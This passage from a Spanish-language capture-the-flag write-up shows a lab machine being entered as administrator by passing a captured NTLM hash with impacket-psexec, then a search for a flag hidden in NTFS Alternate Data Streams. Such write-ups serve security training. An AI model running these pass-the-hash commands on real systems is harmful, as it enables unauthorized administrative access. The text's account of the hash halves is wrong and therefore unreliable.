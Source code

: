 Por lo que hizo uso de nuevo de impacket para conectar a la máquina proveyendo el hash. Dada la estructura de lo hashes NTLM se podría usar tanto como:

```bash
impacket-psexec 'administrator@10.10.10.63' -hashes 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00'
```

Como con:

```bash
impacket-psexec 'administrator@10.10.10.63' -hashes ':e0fb1fb85756c24235ff238cbe81fe00'
```

Debido a que la primera mitad corresponde al identificador de la máquina y la segunda a la "autorización" del usuario.

![Acceso mediante hash](images/post_6.png)

##### Obtención de bandera

Después de buscar extraer el contenido de la bandera, se encontró el archivo `hm.txt` el cuál indica que la bandera no se encuentra presente si no en otro sitio. Durante ese proceso se encontró información referente a los [Alternate Data Streams](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/) que básicamente son una forma de ocultar información en un archivo y la característica existe únicamente en sistemas de archivos de tipo NTFS.

![Mensaje de supuesta bandera](images/post_7.png)